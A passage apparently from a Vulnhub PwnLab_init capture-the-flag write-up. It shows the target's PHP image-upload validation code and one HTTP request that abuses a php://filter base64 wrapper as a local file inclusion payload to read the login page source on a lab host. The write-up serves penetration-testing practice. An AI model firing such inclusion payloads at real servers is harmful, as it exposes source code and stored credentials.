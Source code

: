 ```

                if (!(in_array($file_ext, $whitelist))) {
                        die('Not allowed extension, please upload images only.');
                }

                if(strpos($filetype,'image') === false) {
                        die('Error 001');
                }

                if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
                        die('Error 002');
                }

                if(substr_count($filetype, '/')>1){
                        die('Error 003');
                }

                $uploadfile = $uploaddir . md5(basename($_FILES['file']['name'])).$file_ext;

                if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
                        echo "<img src=\"".$uploadfile."\"><br />";
                } else {
                        die('Error 4');
                }
        }
}

?>   
```

![PwnLab_init](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/PwnLab_init/screenshots/20250515024353.png)
___
```http
http://192.168.3.185/?page=php://filter/convert.base64-encode/resource=login
```

